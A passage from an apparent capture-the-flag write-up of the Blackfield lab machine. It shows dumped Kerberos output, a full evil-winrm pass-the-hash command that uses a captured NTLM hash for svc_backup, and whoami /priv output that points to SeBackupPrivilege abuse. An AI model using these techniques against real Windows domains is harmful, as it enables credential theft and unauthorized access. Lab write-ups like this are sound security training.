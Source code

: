 ```
logon_time 2020-02-23T17:59:13.318909+00:00
sid S-1-5-18
luid 257142
	== Kerberos ==
		Username: DC01$
		Domain: BLACKFIELD.LOCAL
...
```

I get back a load of data!

i wont show it all as it is a lot... 

but we can see svc_backup has ntlm hash... lets try to pass this over to evil-winrm and just pass-the-hash no need to break the hash unless we need too.

```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cat ../Desktop/user.txt
3920bb317a0be*************
```

WOW was successful and we got user.txt, this was quite the break-in and took a freaking ton of enumeration and repetitive commands as different users! But we prevailed!

USER PWNED!

---

### Priv Esc

immediately look at the C:\
and find` notes.txt` :
```
cat notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

now biggest clue is that there is a backup somewhere in here lol 

lets check the user's permissions and groups:
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```